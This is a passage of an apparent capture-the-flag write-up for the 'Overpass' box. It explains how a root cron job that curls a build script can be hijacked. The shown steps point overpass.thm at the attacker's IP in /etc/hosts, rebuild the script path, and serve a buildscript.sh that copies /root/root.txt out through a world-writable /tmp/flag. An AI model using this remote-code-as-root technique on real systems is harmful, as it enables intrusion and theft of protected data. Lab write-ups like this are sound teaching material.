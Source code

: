 From this, we can see that on a Linux system this command is compiling overpassLinux using goLang. But this information is not of much use to us. Going back to the cron job, we know that the box is not connected to the internet. So, a question may arise 'Then how is it able to curl overpass.thm'. And for any such resolution we must immediately check the `/etc/hosts` file which would look like:
```
james@overpass-prod:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

So, overpass.thm gets resolved to 127.0.0.1. We can modify this resolution IP to some other address that we can control and then pass some other `buildscript.sh` containing our malicious command. We can change this IP to our local machine's IP address using the command `nano /etc/hosts` like:
```
<my_IP> overpass.thm
```

But this is not the solution, in the cron job we can see that there is a path also that is associated with the curl request. So, we need to make a similar directory on our system and store the 'buildscript.sh' in the newly-created directory.
```
tester@kali:~/Desktop$ mkdir -p downloads/src
tester@kali:~/Desktop$ cd downloads/src/
tester@kali:~/Desktop/downloads/src$ touch buildscript.sh
```
P.S. Note that I have created this directory in Desktop, but can be created anywhere.

We can write the command that we want to execute in the newly created 'buildscript.sh'
using `nano` and save it. As this is on our local system, we can even use gedit or any other editor of our choice.
```
tester@kali:~/Desktop/downloads/src$ nano buildscript.sh 
#!/bin/bash

cat /root/root.txt > /tmp/flag
```

The command stored in the 'buildscript.sh' performs the task of writing the data `/root/root.txt` to a file `/tmp/flag` on the box itself. So, we need to create a file named 'flag' in the '/tmp' folder on the box and also change it's permission so that anyone can write to that file.
```
james@overpass-prod:/tmp$ touch flag
james@overpass-prod:/tmp$ chmod 777 flag
```
Now, all that we need to do is start a server on our local machine and rest all would be taken care of by the `cron`. Make sure to start the server in the parent directory of the newly created 'downloads' folder which in my case was the 'Desktop' folder.
